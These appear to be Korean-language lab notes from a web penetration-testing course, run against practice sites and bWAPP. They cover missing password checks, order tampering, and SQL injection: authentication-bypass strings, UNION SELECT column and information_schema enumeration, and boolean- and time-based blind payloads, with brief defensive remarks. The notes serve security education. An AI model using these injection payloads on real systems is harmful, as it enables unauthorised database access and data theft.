





# 웹페이지 침투 실습

- http://test.nanum.info:81 에서 실습


## 다른사람 글 수정하기

1. 수정하기 버튼
2. 비밀번호 입력
3. 수정페이지
4. 비밀번호 확인하지 않음!
5. 수정하고 완료




## Intruder / Repeater 사용하기


## HTML 수정을 통한 회원 정보 수정


## 주문 수정

- 실무에서 결제 금액 테스트
  - 카드결제시 : 영수증 확인, 카드사 확인 (현재 실습 페이지는 무통장 입금만 가능)
  - 다른 사용자의 주문 정보 확인 여부


### 참고 : 무결성 검증

- 금융권
  - 은행, 증권사 : **원장**이 변경될 경우 값이 변경된다. 따라서 원장간의 "무결성" 검사를 하도록 한다. 이때 서로 무결성 검사를 확인하도록 하는 방법이 **블록 체인**이다
  - 원장이 없는 곳은 중간에 **가원장**을 두어서 비교를 통해 무결성을 확인 후 원장에 저장한다.
  - **무결성 검증**이 중요하기 때문에 위와 같은 과정을 거친다


# SQL Injection

실습 페이지 : http://test.nanum.info:82

- **SQL문의 문법을 해치지 않는 선에서 조작한다**
- SQL문의 반환값이 True가 되도록 한다


## SQL Injection 종류

- 인증 우회
- Error-Based
  - 화면에 보여지는 것을 토대로 SQL문을 조작한다
- Blind-Injection
  - 화면에 표시되지 않으나 화면의 변화를 통해서 데이터를 파악해 SQL문 조작


## Error-Based

값을 넣어 오류를 유발하고 이를 통해 SQL문을 조작하는 방법


## 로그인 실습 - GET

### 입력 형태

- id : ~

- pw : ~


### 입력

- id : whatever' or '1'='1
- pw : whatever',pwd)=1) or (1=1) or (pwdcompare('whatever


### 완성되어 넘겨지는 SQL문

```sql
SELECT * FROM GM_FREE_MEMBER WHERE 
	(userid='whatever' or '1'='1') 
	and (pwdcompare('hello',pwd)=1) 
	or (1=1) 
	or (pwdcompare('whatever', pwd)=1)
```

- 중간에 ('1'='1')과 (1=1)로 인해 무조건 참값이 넘겨지게 된다


- 다음과 같이 접속된다


### 개발자의 실수로 인한 오류의 노출

- 위와 같은 SQL Injection이 가능해지는 이유는 아래와 같은 오류의 노출 때문이다


- 위와 같은 오류 노출은 개발 단계에서부터 이어져 오는 것으로 **소스코드 진단**을 통해 발견할 수 있다.


### 참고

- 뒤에 필요없는 부분을 주석처리해 건너 뛰게 할 수 있다.
- MySQL은 '#', MS SQL은 '--'이다


## UNION SELECT 를 통한 DB 정보 노출 - GET

- DB 접근제어
- DB 사용자 권한 최소화
- DB 정보 암호화(sha256 이상)


### 데이터베이스 공격

- 먼저 데이터베이스의 column의 갯수를 알아낸다.

```bash
0'union select all [숫자]#
```

- 숫자의 갯수만큼 column이 존재하는 것이며 이를 이용해 다음 과정을 수행 가능하다

```sql
0'union select all 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
```

- 다음과 같이 실행된다


### 데이터베이스 정보 알아내기

### UNION SELECT

- 다음과 같은 정보를 위의 column 위치에 넣어  정보를 뽑아낼수 있다
  - database() : DB명을 알려주는 함수
  - user() : 현재 사용자의 아이디
  - system_user() : 최고권한 사용자의 아이디
  - @@version : DB 서버의 버전
  - @@datadir : DB 서버가 존재하는 디렉터리
- 예시



- 위와 같이 Burp Suite Intruder를 활용할수 있다.
- DB 서버의 버전이 나타남을 확인 가능하다


### information_schema

 DB에는 DB의 정보를 담고 있는 schema가 아래와 같이존재한다



이를 이용해 DB 테이블 정보르 알아낼 수 있다.

- 사이트의 DB column이 24개임을 알아낸 상태

- SQL Injection

```sql
0'union select all 1,2,table_name,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from information_schema.tables#
```

- 결과




### 다른 예시

- Column 개수가 일치하기 때문에 해당 쿼리가 참이 되므로 검색 가능한 테이블 확인

```sql
0' union select null,table_schema,table_name,column_name,null,null,null from information_schema.columns where table_schema!='mysql' and table_schema!='information_schema'#
```




### 참조

- SQL Injection은 모든 입력값에 대해서 대비해야 한다.


## 개발자 도구 - Post

- Burp Suite가 차단된 경우 개발자 도구를 통해 보안 점검을 하는것이 가능하다


## SQL Injection - Blind - Boolean-Based

- 오류가 직접적으로 화면에 나타나지 않는다
- 입력에 대한 변화를 통해서 내부를 파악한다
- 실습 페이지 beebox 로컬 vm 환경


### 예시

- 조작시 **예/아니오** 형태로 반응이 나타난다
- SQL Injection시 조작한 명령어가 작동하나 이에 대한 결과값이 없는 값이 나온다
  - 본래는 작동해서는 안되는 명령어가 작동된것


### DB를어떻게 찾아야 할까

- 길이를 물어본다

``` sql
' or 1=1 and length(database())=[숫자]#
```


- 숫자를 늘려가면서 확인한다

- 데이터베이스의 길이를 찾아내면 다음과 같이 나타난다


### DB이름을 어떻게 알아낼까?

- **substring**을 이용해 글자를 한개씩 물어보면서 알아낸다

```sql
' or 1=1 and substring(database(),1,1)='a'#    // 문자 형태의 표현
' or 1=1 and ascii(substring(database(),1,1))=97#   //아스키코드 형태 표현
```


- 이전의 작업을 통해 bWAPP이라는 데이터베이스가 존재하는것을 알고 있기에 b를 넣고 확인해본다


- 존재함이 확인된다


- 위와 같은 과정을 반복해 DB의 이름을 알아낸다


## SQL Injection - Time-Based

- 위의 구문에 sleep을 추가한것

```sql
' or 1=1 and length(database())=2 and sleep(1) #
```

- 위의 문장을 보면 1초만 걸려야 할것같지만 각 Column별로 1초씩 걸리는 것이기 때문에 24개면 24초에 네트워크 지연시간까지 합친 시간이 걸리게 된다

- 진단 도구에서 Time-Based SQL Injection을 실행하게 되면 진단 이후에 DB가 망가질 가능성이 있다


